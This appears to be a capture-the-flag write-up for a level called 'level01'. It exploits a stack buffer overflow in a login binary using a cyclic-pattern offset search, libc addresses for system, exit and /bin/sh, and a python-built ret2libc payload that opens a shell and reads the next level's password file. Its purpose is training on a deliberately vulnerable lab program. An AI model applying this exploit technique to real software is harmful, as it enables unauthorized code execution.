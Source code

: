 When running the level01 program, we observe that it prompts for a username and a password. The code source clearly indicates the credentiels (dat_wil, admin)
But, it won't work no matter what we can do bc the code is not made to.

Example:
```bash
./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
Enter Password:
nope, incorrect password...
```

---

By testing very long passwords as input, the program crashes with a Segmentation Fault:
Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault

This indicates a buffer overflow vulnerability, where data exceeds the buffer's expected size, overwriting the return address (EIP).

## 1. Finding the Offset

---

To pinpoint the exact position where the EIP is overwritten, the cyclic pattern generator tool on wiremask.eu was used.

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9

Provide this pattern as the password during program execution:
```py
python -c 'print "dat_wil\n" + "<generated_pattern>"' | ./level01
```
Analyze the Crash in GDB:
Run the program in GDB:

gdb ./level01

After the crash, inspect the EIP register:

info registers

output:
eip            0x37634136   0x37634136

Use the EIP value on wiremask.eu to determine its position in the pattern.
The tool provides the exact offset, in this case, 80 bytes.

Exploitation Steps

## 2. Prepare the Addresses

To exploit the vulnerability, the following addresses (in little-endian) are needed:

```bash
    system(): 0xf7e6aed0 → \xd0\xae\xe6\xf7
    exit(): 0xf7e5eb70 → \x70\xeb\xe5\xf7
    /bin/sh: 0xf7f897ec → \xec\x97\xf8\xf7
```
These addresses can be confirmed in GDB:

p system
p exit
find "/bin/sh"

## 3. Generate the Payload

The payload structure is as follows:

    Valid username: dat_wil\n
    Padding: 80 bytes of A ("A" * 80)
    Address of system(): \xd0\xae\xe6\xf7
    Address of exit(): \x70\xeb\xe5\xf7
    Address of /bin/sh: \xec\x97\xf8\xf7

Generate the payload:
```py
python -c 'print "dat_wil\n"+"A"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload
```
## 4. Inject the Payload

Execute the program with the payload:

cat /tmp/payload - | ./level01

## 5. Retrieve the Flag

If the exploit succeeds, an interactive shell opens. In this shell, retrieve the flag:

cat /home/users/level02/.pass

